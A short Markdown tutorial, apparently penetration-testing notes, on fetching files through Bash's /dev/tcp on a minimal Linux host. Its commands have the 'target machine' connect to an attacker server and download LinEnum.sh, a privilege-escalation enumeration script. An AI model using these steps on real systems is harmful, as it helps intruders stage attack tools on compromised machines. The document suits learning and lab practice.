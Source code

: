 

If you’re stuck on a **minimal Linux system** with **no `wget`, `curl`, or `nc`**, you can still download files using Bash’s built-in networking feature:

`/dev/tcp` — available in most Bash versions **v2.04 and above**.

---

## **1. Open a TCP Connection (Target Machine)**

Use `exec` to open a connection to the attacker or web server:

```bash
exec 3<>/dev/tcp/10.10.10.32/80
```

- `3<>` → Opens a **bidirectional file descriptor** (for reading and writing).
    
- `10.10.10.32` → Replace with the **server IP**.
    
- `80` → Port number, usually HTTP.
    

---

## **2. Send an HTTP GET Request**

Send a simple GET request for the file you want:

```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n" >&3
```

- `-e` → Enables escape sequences for line breaks.
    
- `/LinEnum.sh` → Replace with the path to your desired file.
    

---

## **3. Read the Response**

Print the server’s response (headers + file content):

```bash
cat <&3
```

---

## **4. Save the File**

Instead of printing to the screen, save it directly:

```bash
cat <&3 > LinEnum.sh
```

Now you have the file saved locally as `LinEnum.sh`.

---

## **Tips**

- Works best with **plain HTTP** servers.
    
- HTTPS connections won’t work because `/dev/tcp` does not handle SSL/TLS.
    
- Make sure the port you’re connecting to is open and reachable.
    

---
